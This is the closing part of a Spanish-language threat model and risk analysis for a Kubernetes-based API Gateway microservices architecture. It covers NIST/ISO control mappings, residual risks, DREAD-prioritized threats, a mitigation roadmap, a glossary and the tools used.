| **CM-7** | Least Functionality | Funcionalidad mínima<br/>Distroless images, remove shells | NIST CM-7 |
| **CP-9** | System Backup | Backups del sistema<br/>Velero, pg_basebackup, snapshots | NIST CP-9<br/>ISO 27001 A.12 |
| **IA-2** | User Identification | Autenticación de usuarios<br/>MFA, OAuth2, JWT | NIST IA-2<br/>ISO 27001 A.9 |
| **IA-5** | Authenticator Management | Gestión de autenticadores<br/>Password policies, key rotation | NIST IA-5 |
| **IR-4** | Incident Handling | Manejo de incidentes<br/>Runbooks, on-call, PagerDuty | NIST IR-4<br/>ISO 27001 A.16 |
| **IR-6** | Incident Reporting | Reporte de incidentes<br/>Templates, escalación | NIST IR-6 |
| **RA-5** | Vulnerability Scanning | Escaneo de vulnerabilidades<br/>Trivy, Clair, Snyk | NIST RA-5<br/>ISO 27001 A.12 |
| **SC-7** | Boundary Protection | Protección de perímetros<br/>WAF, Network Policies, Firewall | NIST SC-7<br/>ISO 27001 A.13 |
| **SC-8** | Transmission Confidential | Confidencialidad en tránsito<br/>TLS 1.3, mTLS | NIST SC-8<br/>ISO 27001 A.10 |
| **SC-12** | Cryptographic Key Mgmt | Gestión de claves criptográficas<br/>Vault, cert-manager, rotation | NIST SC-12 |
| **SC-13** | Cryptographic Protection | Uso de criptografía<br/>AES-256, RSA-2048+, SHA-256+ | NIST SC-13 |
| **SC-28** | Protection at Rest | Protección de datos en reposo<br/>LUKS, encrypted EBS volumes | NIST SC-28<br/>ISO 27001 A.10 |
| **SI-2** | Flaw Remediation | Remediación de vulnerabilidades<br/>Patching SLA: critical <7 días | NIST SI-2 |
| **SI-3** | Malicious Code Protection | Protección contra malware<br/>Image scanning, admission control | NIST SI-3 |
| **SI-4** | System Monitoring | Monitorización del sistema<br/>Falco, metrics, logs | NIST SI-4<br/>ISO 27001 A.12 |

---

## 9. Riesgos Residuales

| ID | Riesgo Residual | Prob. | Imp. | Justificación/Aceptación |
|----|-----------------|-------|------|--------------------------|
| **R01** | Zero-day en Kubernetes | Muy Baja | Crítico | **No hay defensa contra CVEs desconocidos.**<br/>**Mitigación:**<br/>• Patching rápido (<24h cuando se publique CVE)<br/>• Monitoreo intensivo de security advisories<br/>• Bug bounty program<br/>**Estrategia:** MITIGAR + ACEPTAR |
| **R02** | Insider threat (empleado malicioso) | Baja | Alto | **Empleados con acceso legítimo pueden causar daño.**<br/>**Mitigación:**<br/>• Least privilege estricto<br/>• Audit logs exhaustivos<br/>• Background checks en contratación<br/>• Separación de funciones<br/>**Estrategia:** MITIGAR + MONITOREAR |
| **R03** | Advanced Persistent Threat (APT) - nation-state actor | Muy Baja | Crítico | **Actores estatales con recursos ilimitados.**<br/>**Mitigación:**<br/>• Segmentación de red avanzada<br/>• Detección de anomalías con ML<br/>• Threat intelligence feeds<br/>**Estrategia:** MITIGAR + ACEPTAR parcialmente |
| **R04** | Supply chain attack en dependencias (npm, pip, Docker images) | Baja | Alto | **Dependencia comprometida en cadena de suministro.**<br/>**Mitigación:**<br/>• SBOM (Software Bill of Materials)<br/>• Dependency scanning continuo<br/>• Private registry mirrors<br/>• Lock files versionados<br/>**Estrategia:** MITIGAR |
| **R05** | DDoS volumétrico masivo (>100 Gbps) | Baja | Medio | **Ataque masivo satura incluso al cloud provider.**<br/>**Mitigación:**<br/>• Cloudflare/AWS Shield Advanced (SLA 100% uptime)<br/>• Over-provisioning de capacidad<br/>**Transferencia:**<br/>• Seguro de ciberseguridad<br/>**Estrategia:** TRANSFERIR + MITIGAR |
| **R06** | Social engineering (phishing) | Media | Medio | **Usuarios pueden caer en phishing de credenciales.**<br/>**Mitigación:**<br/>• Security awareness training trimestral<br/>• Simulaciones de phishing<br/>• MFA obligatorio (reduce impacto)<br/>**Estrategia:** MITIGAR |
| **R07** | Fallo de proveedor de cloud (regional outage) | Muy Baja | Alto | **Outage regional completo de AWS/GCP/Azure.**<br/>**Mitigación:**<br/>• Multi-AZ deployment<br/>• Backups en región secundaria<br/>• DR plan probado<br/>**Costo de multi-region no justificado actualmente.**<br/>**Estrategia:** MITIGAR + ACEPTAR |

**Estrategia de tratamiento:**
- **R01, R03:** MITIGAR + ACEPTAR (no eliminable completamente)
- **R02:** MITIGAR + MONITOREAR (controles compensatorios)
- **R04:** MITIGAR (scanning + SBOM)
- **R05:** TRANSFERIR (seguro de ciberseguridad) + MITIGAR
- **R06:** MITIGAR (training + MFA)
- **R07:** MITIGAR + ACEPTAR (multi-AZ suficiente, multi-region muy costoso)

---

## 10. Conclusiones y Recomendaciones

### 10.1 Resumen Ejecutivo

Este análisis de riesgos identificó **27 amenazas** en una arquitectura de API Gateway para microservicios, utilizando las metodologías **STRIDE** y **DREAD**.

**HALLAZGOS PRINCIPALES:**

#### 1. Superficie de Ataque Significativa
La arquitectura expone múltiples vectores de ataque desde el perímetro (internet) hasta la capa de datos. Cada componente representa un potencial punto de entrada que debe ser protegido.

#### 2. Amenazas Críticas Priorizadas
Se identificaron **4 amenazas CRÍTICAS** (score 40-50 DREAD):

| Amenaza | Score | Impacto Principal |
|---------|-------|-------------------|
| **TH18:** API Flooding / DDoS | 46/50 | Sistema completamente inaccesible |
| **TH25:** IDOR | 42/50 | Acceso a datos de otros usuarios |
| **TH06:** SQL Injection | 41/50 | Exfiltración total de base de datos |
| **TH14:** PII Exposure in Logs | 40/50 | Multas GDPR (4% revenue anual) |

Estas 4 amenazas requieren mitigación **INMEDIATA** (Sprint 1-2).

#### 3. Trust Boundaries Bien Definidos
La segmentación en **4 zonas de confianza** (Internet 0%, DMZ 30%, Service Mesh 70%, Data Layer 90%) permite aplicar controles de seguridad **proporcionales al nivel de riesgo** de cada capa.

#### 4. Defensa en Profundidad es Esencial
Ningún control único es suficiente. Se requieren **múltiples capas de seguridad**:
- **WAF** (perimetral)
- **API Gateway** (autenticación/autorización)
- **Service Mesh** (mTLS, policies)
- **Application** (input validation, authorization)
- **Runtime security** (Falco)
- **Data layer** (encryption, access control)

#### 5. Mapeo a MITRE ATT&CK
Se mapearon **29 técnicas ATT&CK**, cubriendo las **11 fases del kill chain** desde Initial Access hasta Impact. Esto permite entender cómo un atacante real encadenaría múltiples amenazas.

#### 6. Controles Alineados a Frameworks
Los **15 controles** propuestos están alineados a **NIST Cybersecurity Framework** e **ISO 27001**, facilitando auditorías de compliance.

#### 7. Riesgos Residuales Identificados
Se documentaron **7 riesgos** que persisten después de implementar controles, con estrategias de aceptación o transferencia justificadas.

**SITUACIÓN ACTUAL:**
- 27 amenazas identificadas
- 4 críticas, 18 altas, 5 medias
- 0 controles implementados actualmente
- Exposición significativa a ataques

**SITUACIÓN OBJETIVO (post-implementación):**
- 15 controles de seguridad implementados
- 4 amenazas críticas mitigadas a nivel MEDIO/BAJO
- 18 amenazas altas mitigadas
- 5 riesgos residuales documentados y aceptados
- Postura de seguridad robusta con defensa en profundidad

### 10.2 Recomendaciones Prioritarias

#### RECOMENDACIÓN #1: IMPLEMENTAR CONTROLES P0 EN SPRINT 1-2 (CRÍTICO)

Los **5 controles P0** mitigan las 4 amenazas críticas identificadas:

| Control | Timeline | Inversión | Impacto | Mitiga |
|---------|----------|-----------|---------|--------|
| **C01:** Rate Limiting 3 capas | 2 semanas | Baja | Crítico | TH18 (DDoS) |
| **C02:** JWT Secret Rotation + RS256 | 2 semanas | Media | Alto | TH01 (falsificación) |
| **C03:** Log Scrubbing + Encryption | 2 semanas | Baja | Crítico | TH14 (PII exposure) |
| **C04:** External Secrets Operator | 2 semanas | Media | Alto | TH01 (falsificación)<br/>TH16 (secrets exposure) |
| **C05:** Input Validation Framework | 3 semanas | Alta | Crítico | TH06 (SQL injection)<br/>TH25 (IDOR) |

**TOTAL INVERSIÓN P0:** ~6 semanas de equipo de 3 personas = ~18 semanas-persona

**ROI:**
- **Inversión:** ~$50K en ingeniería
- **Pérdida potencial:** $4.24M promedio de violación de datos (IBM 2023)
- **Multas GDPR:** 4% del revenue anual
- **ROI:** 53:1 a 84:1

#### RECOMENDACIÓN #2: ESTABLECER SECURITY CHAMPIONS PROGRAM

Cada equipo de desarrollo debe tener un **Security Champion** que:
- Revisa PRs con foco en seguridad
- Asiste a training mensual de seguridad
- Es punto de contacto para consultas de seguridad
- Participa en threat modeling de nuevas features

**Beneficio:** Shift security left, detectar problemas antes de producción.

#### RECOMENDACIÓN #3: IMPLEMENTAR CONTINUOUS SECURITY TESTING

Integrar en **CI/CD pipeline:**
- **SAST** (Static Analysis): SonarQube, Semgrep
- **DAST** (Dynamic Analysis): OWASP ZAP en staging
- **Dependency scanning:** Snyk, Dependabot
- **Image scanning:** Trivy en registry
- **Infrastructure scanning:** Checkov para IaC

**Gate de calidad:** PR no mergea si hay vulnerabilidades CRITICAL sin resolver.

#### RECOMENDACIÓN #4: ESTABLECER MÉTRICAS DE SEGURIDAD (KPIs)

Trackear **mensualmente:**

| Métrica | Baseline | Objetivo | Impacto |
|---------|----------|----------|---------|
| MTTD (Mean Time To Detect) | 4 horas | <15 min | Detección rápida |
| MTTR (Mean Time To Respond) | 12 horas | <1 hora | Respuesta ágil |
| Vuln. críticas sin patchear | 12 | 0% | Superficie reducida |
| Containers con image firmado | 0% | 100% | Supply chain seguro |
| Intentos de ataque bloqueados | - | Trend ↓ | Efectividad WAF |
| Uptime del API Gateway | 99.5% | 99.95% | Alta disponibilidad |

**Dashboard ejecutivo** con estas métricas en Grafana.

#### RECOMENDACIÓN #5: REALIZAR PENTESTS Y RED TEAM EXERCISES

**Cronograma:**
- **Pentest externo:** Trimestral (Q1, Q2, Q3, Q4)
- **Red team exercise:** Semestral (simular APT)
- **Bug bounty program:** Continuo (HackerOne, Bugcrowd)

**Beneficio:** Validar que los controles implementados realmente funcionan.

#### RECOMENDACIÓN #6: PREPARAR PARA AUDITORÍAS DE COMPLIANCE

**Roadmap de compliance:**

| Fecha | Hito | Descripción |
|-------|------|-------------|
| **Q2 2026** | Controles P0 | Implementación completa |
| **Q3 2026** | SOC 2 Type I | Design effectiveness |
| **Q4 2026** | SOC 2 Type II | Operational effectiveness |
| **Q1 2027** | ISO 27001 | Certification |

**Documentación requerida:**
- Este documento de análisis de riesgos
- Políticas de seguridad formales
- Runbooks de incident response
- Evidencia de controles (screenshots, configs, logs)

### 10.3 Próximos Pasos

#### INMEDIATO (Esta semana)
- [ ] Presentar este análisis a liderazgo técnico
- [ ] Obtener buy-in y presupuesto para controles P0
- [ ] Asignar ownership de cada control a un equipo
- [ ] Crear épicas en Jira para los 15 controles

#### SPRINT 1 (Semanas 1-2)
- [ ] Implementar C01: Rate Limiting
- [ ] Implementar C02: JWT Rotation
- [ ] Implementar C03: Log Scrubbing
- [ ] Weekly check-in de progreso

#### SPRINT 2 (Semanas 3-4)
- [ ] Implementar C04: External Secrets
- [ ] Implementar C05: Input Validation
- [ ] Pentest interno de controles P0

#### SPRINT 3-4 (Semanas 5-8)
- [ ] Implementar controles P1 (C06-C11)
- [ ] Setup Falco (runtime security)
- [ ] Container hardening

#### MENSUAL (Continuo)
- [ ] Re-evaluar threat model (nuevas amenazas?)
- [ ] Revisar métricas de seguridad
- [ ] Actualizar este documento con lecciones aprendidas

#### TRIMESTRAL (Continuo)
- [ ] Pentest externo
- [ ] Security awareness training para toda la compañía
- [ ] Review de riesgos residuales (aún son aceptables?)

#### ANUAL (Continuo)
- [ ] Red team exercise
- [ ] Disaster recovery drill
- [ ] Actualización mayor de este documento

---

## Anexos

### A1. Glosario

| Término | Definición |
|---------|------------|
| **STRIDE** | Spoofing, Tampering, Repudiation, Information Disclosure, DoS, Elevation of Privilege (Metodología de Microsoft para threat modeling) |
| **DREAD** | Damage, Reproducibility, Exploitability, Affected Users, Discoverability (Metodología de priorización de riesgos) |
| **CWE** | Common Weakness Enumeration (Catálogo de debilidades de software) |
| **CVE** | Common Vulnerabilities and Exposures (Base de datos de vulnerabilidades) |
| **SIEM** | Security Information and Event Management |
| **mTLS** | Mutual TLS (Autenticación bidireccional con certificados) |
| **RBAC** | Role-Based Access Control |
| **IDOR** | Insecure Direct Object Reference |
| **WAF** | Web Application Firewall |
| **API Gateway** | Reverse proxy que actúa como punto de entrada único |
| **Service Mesh** | Capa de infraestructura para comunicación service-to-service |
| **Kubernetes (K8s)** | Sistema de orquestación de contenedores |
| **Istio** | Service mesh implementation |
| **OPA** | Open Policy Agent (Policy as Code) |
| **HPA** | Horizontal Pod Autoscaler |
| **SBOM** | Software Bill of Materials |
| **GDPR** | General Data Protection Regulation (EU) |
| **SOC 2** | Service Organization Control 2 (audit framework) |
| **ISO 27001** | International standard for information security management |

### A2. Referencias

**Frameworks y estándares:**
- [NIST SP 800-30 Rev. 1: Guide for Conducting Risk Assessments](https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-30r1.pdf)
- [NIST Cybersecurity Framework v1.1](https://www.nist.gov/cyberframework)
- [ISO/IEC 27001:2022: Information Security Management](https://km.thainsw.net/kmdcs/images/File/ISO%2027001-2022%20rm.pdf)
- [MITRE ATT&CK Framework for Cloud](https://attack.mitre.org/matrices/enterprise/cloud/)
- [MITRE ATT&CK for Containers](https://attack.mitre.org/matrices/enterprise/containers/)

**Guías específicas de tecnologías:**
- [OWASP API Security Top 10 (2023)](https://owasp.org/API-Security/editions/2023/en/0x00-toc/)
- [Kubernetes Security Best Practices](https://kubernetes.io/docs/concepts/security/)
- [Istio Security Concepts](https://istio.io/latest/docs/concepts/security/)
- [CIS Kubernetes Benchmark v1.8.0](https://www.cisecurity.org/benchmark/kubernetes)
- [NIST SP 800-190: Application Container Security Guide](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-190.pdf)

**Recursos de Agesic (Uruguay):**
- [Guía de implementación del Marco de Ciberseguridad 5.0](https://www.gub.uy/agencia-gobierno-electronico-sociedad-informacion-conocimiento/)

**Research y reportes:**
- IBM Cost of a Data Breach Report 2023
- Verizon Data Breach Investigations Report (DBIR) 2023
- OWASP Top 10 Web Application Security Risks 2021

### A3. Herramientas Utilizadas

**Threat Modeling:**
- Microsoft Threat Modeling Tool: Generación de diagramas DFD
- OWASP Threat Dragon: Modelado de amenazas open-source

**Scanning y Testing:**
- Trivy: Vulnerability scanning de containers y IaC
- Clair: Container vulnerability scanning
- Snyk: Dependency scanning
- OWASP ZAP: Dynamic application security testing (DAST)
- SonarQube: Static application security testing (SAST)

**Monitorización y Detección:**
- Falco: Runtime security y anomaly detection
- Prometheus + Grafana: Metrics y dashboards
- Elastic Stack (ELK): Centralized logging y SIEM
- Fluentd: Log aggregation y scrubbing

**Gestión de Secrets:**
- HashiCorp Vault: Secrets management
- External Secrets Operator: K8s integration con Vault
- cert-manager: Certificate management en K8s

**Infrastructure as Code:**
- Terraform: Infrastructure provisioning
- Helm: Kubernetes package manager
- Kustomize: Kubernetes configuration management

**Policy Enforcement:**
- Open Policy Agent (OPA): Policy as code
- Gatekeeper: OPA integration para K8s admission control
- Kyverno: Kubernetes-native policy engine

**Backup y Disaster Recovery:**
- Velero: Kubernetes backup y restore
- pg_basebackup: PostgreSQL backup

---

## 📊 Checklist de Entregables

| Entregable | Estado | Ubicación |
|------------|--------|-----------|
| ☑ Documento completo con todas las secciones | ✅ COMPLETO | Este documento |
| ☑ Diagrama de arquitectura con trust boundaries | ✅ COMPLETO | Sección 3.1 + PPT |
| ☑ Inventario de activos (información y tecnológico) | ✅ COMPLETO | Sección 2 |
| ☑ Matriz STRIDE completa | ✅ COMPLETO | Sección 4.2 (27 amenazas) |
| ☑ Análisis DREAD de amenazas prioritarias | ✅ COMPLETO | Sección 5.2 (Top 4) |
| ☑ Mapa de técnicas ATT&CK | ✅ COMPLETO | Sección 6 |
| ☑ Plan de mitigación priorizado | ✅ COMPLETO | Sección 7 (15 controles) |
| ☑ Controles documentados (NIST/ISO) | ✅ COMPLETO | Sección 8 |
| ☑ Riesgos residuales identificados | ✅ COMPLETO | Sección 9 (7 riesgos) |
| ☑ Conclusiones y recomendaciones | ✅ COMPLETO | Sección 10 |

---

**Versión:** 1.0  
**Fecha:** 24/05/2026  
**Equipo:** Juan Lamolle, Serafín González, Fernando Rodríguez

---

**FIN DEL DOCUMENTO**
